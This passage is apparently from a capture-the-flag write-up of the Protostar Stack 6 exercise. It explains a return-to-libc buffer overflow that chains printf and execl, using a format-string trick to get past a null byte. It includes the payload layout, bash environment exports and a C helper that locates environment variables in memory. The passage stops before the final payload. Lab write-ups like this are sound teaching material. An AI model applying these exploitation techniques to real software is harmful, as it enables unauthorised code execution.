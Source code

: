 I looked up printf as well as execl, because with the help of the Hackers Hut link, I found that I could not pass a   "0" as an argument, so I needed to use a printf hack instead.  So my buffer overflow went from: 

```
| buffer (80) | return code | shellcode |
```

to

```
| buffer (80) | printf | execl | formatstring | prg | prg | here |
```

To explain, I was still going to pass the 80 bytes to get to the EIP, but instead of jumping to the stack where my shellcode was stored, I would instead execute instructions.  Specifically 'execl(prg, prg, 0)', with a printf wrapper to bypass the "0" going into memory.  The "here" value is needs to have the value of the memory address it's being entered to. For example, if "here" is located at 0xbfff0c14, it needs to contain the value 0xbfff0c14. It's part of the printf hack. 

So now we have the buffer, the memory addresses of "printf" and "execl".  Let's put our format string and desired program together.

```
user@protostar:~$ export FORMATSTRING="%3\$n"
user@protostar:~$ export FAV="/home/user/fav"
```

NOTE: When reading through the Hackers Hut article, it would make it sound like you could export the formatstring as "%3$n", but bash tries to interpret the dollar sign, so I had to escape it with a backslash. Additionally, instead of calling the code from fav.c, I used the [shellcode](http://www.exploit-db.com/exploits/13357) I used in Stack 5, since it fixed the gets() issue.  I compiled it as "fav" for some reason. 

I then use a program that I found in the [Hacking: The Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441) book to get me the memory addresses of the environmental variables when called by a program.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

I then called it to get the actual values
